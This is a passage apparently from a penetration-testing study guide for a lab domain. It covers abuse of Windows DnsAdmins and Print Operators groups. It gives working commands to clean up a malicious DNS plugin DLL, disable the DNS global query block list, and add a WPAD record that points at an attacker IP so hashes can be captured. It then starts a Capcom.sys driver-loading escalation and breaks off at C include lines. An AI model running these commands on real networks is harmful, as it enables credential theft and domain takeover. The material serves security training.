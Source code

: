#### 2) Deleting Registry Key
```cmd.exe
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```
Deleting a registry key

#### 3) Starting the DNS Service Again
```cmd.exe
sc.exe start dns
```

#### 4) Checking the DNS Service Status
```cmd.exe
sc query dns
```
Checking service status. Should show that it's running again.

### Abusing DnsAdmins with a WPAD Record
*After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.*

#### Disabling the Global Query Block List
```PowerShell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
Disabling the global query block list

#### Adding a WPAD Record
```PowerShell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
Adding a WPAD record

## Print Operators

- Privilege Name: `SeLoadDriverPrivilege`

#### Check privileges with `whoami /priv`. If `SeLoadDriverPrivilege` isn't enabled, upload Capcoms.sys

Download it on a Visual Studio 2019 Developer Command Prompt, pasting over the includes as:
```C
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
